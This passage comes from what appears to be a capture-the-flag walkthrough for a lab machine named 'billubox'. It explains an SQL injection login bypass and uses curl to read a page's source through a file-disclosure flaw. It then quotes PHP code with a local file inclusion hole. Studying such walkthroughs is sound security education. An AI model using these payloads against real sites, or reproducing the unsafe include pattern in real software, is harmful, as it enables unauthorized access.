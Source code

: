     ```
    select * from auth where pass='FOO' OR 1=1 -- \'
    ```

    Next, recognize that the `--` is a comment field, so the SQL database is only trying to handle this command:

    ```
    select * from auth where pass='FOO' OR 1=1
    ```

    Since `1=1` is true for every row in the database's `auth` table, the `select` statement now returns every row. 
    
17. So lets try logging in to <http://billubox/> by setting both the username and password to ` OR 1=1 -- \`:

    Press the following key sequence:  `(space)OR(space)1=1(space)--(space)\`

18. Now we're logged in and we've been sent to <http://billubox/panel.php>.  This page has two apparent functions.  One lets you add users, while the other shows you users that exist. Let's read its source code using the old `test.php` issue we found.

19. In a terminal, run:

    ```shell
    curl -X POST --data "file=./panel.php" http://billubox/test.php | less
    ```

    It looks like the form here has an interesting situation.  The `load` parameter is placed into a choice variable.  The `load` parameter should only have two possible values, `add` and `show`, corresponding to the two apparent functions.  But if you put something else in that parameter, it will be run, by being included in the current PHP program.

    ```
    $choice=str_replace('./','',$_POST['load']);

    if($choice==='add')
    {
        include($dir.'/'.$choice.'.php');
        die();
    }

    if($choice==='show')
    {
        include($dir.'/'.$choice.'.php');
        die();
    }
    else
    {
        include($dir.'/'.$_POST['load']);
    }
    ```

    So we've found a way to run PHP code if we can get it placed onto the target filesystem. How might we do that?

